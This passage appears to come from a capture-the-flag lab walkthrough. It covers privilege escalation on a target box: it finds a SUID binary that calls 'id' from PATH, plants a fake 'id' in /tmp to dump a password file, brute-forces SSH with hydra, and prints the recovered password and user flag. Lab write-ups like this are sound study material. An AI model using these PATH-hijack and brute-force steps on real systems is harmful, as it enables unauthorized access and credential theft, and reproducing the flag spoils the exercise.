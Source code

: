 ### 8. Privilege Escalation to think
- Searched for SUID binaries:
  ```bash
  find / -perm /4000 2>/dev/null
  ```
- Found `/usr/sbin/pwm`—unusual SUID binary.
- Checked it:
  ```bash
  file /usr/sbin/pwm
  ```
- Output: `setuid, setgid ELF 64-bit LSB shared object`.
- Ran it:
  ```bash
  /usr/sbin/pwm
  ```
- Output:
  ```
  [!] Running 'id' command to extract the username and UID
  [!] ID: www-data
  [-] File /home/www-data/.passwords not found
  ```
- **Why it’s exploitable**: `pwm` runs as root (SUID) and executes `id` from `$PATH`. We can overwrite `id` to trick it into revealing passwords.
- In `/tmp`:
  ```bash
  cd /tmp
  echo 'echo "uid=1000(think)"' > id
  chmod +x id
  export PATH=/tmp:$PATH
  ```
- **Explanation**:
  - `/tmp`: Writable directory for creating our fake `id`.
  - `echo 'echo "uid=1000(think)"'`: Creates a script mimicking `id` output (`uid=1000(think)` matches the real user). The outer `echo` writes the command; the inner `echo` is what runs.
  - `export PATH=/tmp:$PATH`: Ensures our `id` is used over `/usr/bin/id`.
- Ran `pwm` again:
  ```bash
  /usr/sbin/pwm
  ```
- Output: List of passwords, including `josemario.AKA(think)`.
- Saved to `passwords.txt` and brute-forced SSH:
  ```bash
  hydra -l think -P passwords.txt [VICTIM IP] ssh
  ```
- Output:
  ```
  [22][ssh] host: 10.10.134.216   login: think   password: josemario.AKA(think)
  ```
- **Why SSH**: Port 22 was open, and we needed user access.

### 9. User Access and Flag
- Logged in:
  ```bash
  ssh think@[VICTIM IP]
  ```
- Password: `josemario.AKA(think)`
- Found user flag:
  ```bash
  cat user.txt
  ```
- Content: `38375fb4dd8baa2b2039ac03d92b820e`
